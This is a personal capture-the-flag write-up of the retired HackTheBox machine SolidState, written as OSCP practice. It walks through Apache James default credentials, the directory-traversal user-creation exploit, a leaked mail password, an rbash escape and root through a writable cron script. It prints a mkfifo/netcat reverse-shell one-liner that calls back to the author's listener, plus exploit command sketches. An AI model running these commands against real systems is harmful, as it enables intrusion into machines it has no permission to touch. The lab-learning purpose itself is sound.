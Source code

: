
Name: SolidState
Date:  21/11/2022
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- Learning to email like a boomer, regaining a mixture of respect and  
- Weird Ports are sometimes the  target and normality is rabbithole
- Rick Sanchez "Measure twice, cut once" - Read twice, cut once
- Telnet `ctrl + $escapekey` - harder than vim exiting for my brain.
- Linpeas is not everything 

Disclaimer I ran into the rsip protocol, the primilary exploit for this machine and walkthrough forgetting this a TJ Null box. I do not know the PrivEsc and di not read it. The challenge here would be very OSCP-esque recon or die; rerunning old recon attempts from long months past,  in the background being the other OSCP-esque methodological must for me returning to this box regardless of sort of knowing how the inital steps of this box are.  There is also a metasploit module for the intital phase of the box.

LiTTLe did I know this was going to be the equivent of Going Postal, except I just get kept in the cell till I eat the walls away with learn how to email people -  like real life. I am not an email person. Maybe one day I will be. Hopeful soon I will ajust to the discord server post covid world.

## Recon
The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![](HackTheBox/Retired-Machines/SolidState/Screenshots/ping.png)

Considering I already knew this stuff, but is not obvious to a random person trying this box. Just wait for prompts with nc. It makes no intuitive sense regardly, but these systems seem like a begone age that stil exist in the real world behind modern tech and teams.

![](waitforit.png)

Using default credentials
![](defaultcreds.png)

Public exploits avilabel for the [James 2.3.2](https://en.wikipedia.org/wiki/Apache_James) is the Java Apache Mail Enterprise Server, it manages the Apache Mailet API.
![](searchsploit.png)
I research the python3 version of the exploit that was unverified, which works, similiarly requires requires login. As all versions with cron.d wont work.

Metasploit exploit description: 
*"This module exploits a vulnerability that exists due to a lack of input validation when creating a user. Messages for a given user are stored in a directory partially defined by the username. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. To use this module with the cron exploitation method, run the exploit using the given payload, host, and port. After running the exploit, the payload will be executed within 60 seconds. Due to differences in how cron may run in certain Linux operating systems such as Ubuntu, it may be preferable to set the target to Bash Completion as the cron method may not work. If the target is set to Bash completion, start a listener using the given payload, host, and port before running the exploit. After running the exploit, the payload will be executed when a user logs into the system. For this exploitation method, bash completion must be enabled to gain code execution. This exploitation method will leave an Apache James mail object artifact in the /etc/bash_completion.d directory and the malicious user account."*


The metasploit version; performs version checks, creates a user that will be receiving the payload 
```ruby
# The java Message objects for this user will now be stored in
# Either /etc/bash_completion.d or /etc/cron.d
# if it is a cron then
adduser ../../../../../../../../etc/$choice $password
# Delete mail objects containing payload from cron.d

# Then it send the payload to the 25 port
# connect to 25
ehlo admin@apache.com 
# added the extra quote to make this more readable in the line below!
mail from: <''@apache.com> 
rcpt to: ../../../../../../../../etc/cron.d # 60 secs its back
# RCPT TO command tells the SMTP mail server to who the message should be sent
data
From: admin@apache.com
```

References 
[Debug STMP connection for great description of SMTP commands that occuring exploitation of Mail servers](https://www.sparkpost.com/blog/how-to-check-an-smtp-connection-with-a-manual-telnet-session/)
[Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/linux/smtp/apache_james_exec.rb)

The non metasploit route requires Python2.7 and some modifications
![](exploitmodification.png)

I misread and assume the below. The `>` is required for the addressing format.
```bash
# These line we mistaken
Changes to the `rcpt to` and `adduser` commands as well as the payload, which initially failed. I checked with metasploit the default being with cron.d. **Note I did remove the `>` in s.send() line** and retest. 
```

```bash
# One window/pane to catch the cron
nc -lvnp 110
# One window/pane for second shell
nc -lvnp 111
# Reverse shell for the cron shell to paste in to save time
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.14.109 111 >/tmp/g
# Copy and wait...to paset
```

which initially failed, checked with metasploit the default being with cron.d - change payload as double check, but again it failed.
![](crondnotworking.png)

Therefore we have to find another way to get ssh login to the box and this would then lead to potential lead to root on the box. Reminder, but for linearities sake will testing options, I also researched the python3 version of the exploit that was unverified, which works, just requires login. 

Background hydra
![](hydrainthebackground.png)

Recon or die and therefore testing server for memory leakage on eol version of apache
![](checkingtheapache.png)
Ran multiple times and did `-n 100`; same result each time, is it not [Optionsbleed](https://nvd.nist.gov/vuln/detail/CVE-2017-9798), just the bug. It may be [Apache bug #61207](https://bz.apache.org/bugzilla/show_bug.cgi?id=61207).

Instead of climbing down to lesser quality hour, but using ZAP as I check everything except jquery versions as xxs is not really what is required or useful foothold on box CVE-2020-11023, CVE-2020-11022, CVE-2015-9251 and CVE-2019-11358. There are no parametres. I reset the box encase of any potential I may have errors.  I [peaked at both Ivan's](https://ivanitlearning.wordpress.com/2020/08/23/hackthebox-solidstate/) - saw "reading emails" subsection title  and was it and enough. My excuse/reasoning as to why is my confusion with a similar box like this were password resets made no difference it seemed. It also seems like a really unethical thing to do if you were pentesting or redteaming... I suppose you could change it back shortly after, but still. Nevermind. I have been training myself to be more "hunt the shine things" with THM AD Red teaming stuff and playing a bit of Hacknet. I am not as fixated by constant email/ social media checking as other people seem to be. I feel that this does not deserve demotion to helped-through, yet. But that was last strike. If need it again or change my mind this is here for the record.

So I did the thing...
![](reseteveryone.png)

To make it easy for my idiot self. Then I remembered that I put this:

Took this to double check mailing addresses in exploit - metasploit does not 
![](potential.png)
...in my notes for two reason, acted on check one, but not the other. My bad. Added Email to Noting Template. To remember. Then remember that port 25 is not 110...

```
VRFY james@solid-state-security.com
VRFY john@solid-state-security.com
VRFY thomas@solid-state-security.com
VRFY mindy@solid-state-security.com
VRFY mailadmin@solid-state-security.com
# I tried 
ehlo # my ip, there ip, solid-state-security.com
# All ERR
```

https://learn.microsoft.com/en-us/exchange/mail-flow/test-smtp-telnet?view=exchserver-2019

![](cluesinthemail.png)

As not fan of emails general it is rather strange that the old versions are **this clunky**. It been almost a year since I hacked email ports.

![](poormindy.png)

`mindy : P@55W0rd1!2@`


## Exploit  & Foothold &  PrivEsc

Mindy is not powerful enough to know herself.
![](mindyisnotpowerfulenoughtoknowherself.png)

So with all my tryharding, which is positive. I did not need to edit code. I did not need to really understand the vulnerability. I enumerate and almost died trying. If my cheatsheets were up to par on POP3 this would have been a breeze. 

![1000](scriptfailed.png)

Retried and boom
![](retriedandbooom.png)

![](env.png)

We need to escape the rbash shell. We sort of escape it as much as possible with exploit or 
`ssh -t "bash --noprofile"`
![](what.png)


There is no sudo on this box. James is on the box.

Linpeas list:

- no gcc or cc or make so no:
Vulnerable to CVE-2021-4034 
Potentially Vulnerable to CVE-2022-2588
Potential pwnkit.

chmod 777 the bin directory to enumerate. 
![](chmodingthebin.png)

127.0.0.1 631

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
/opt/tmp.py

Although I could not run pspy64 due to restricted shell this seems like a script that is scheduled with cronjob
![](tmptmp.png)

Copying a back up to /home/mindy I added a simple bash reverse shell.

![](reverseshellattempt.png)

Root
![](root.png)

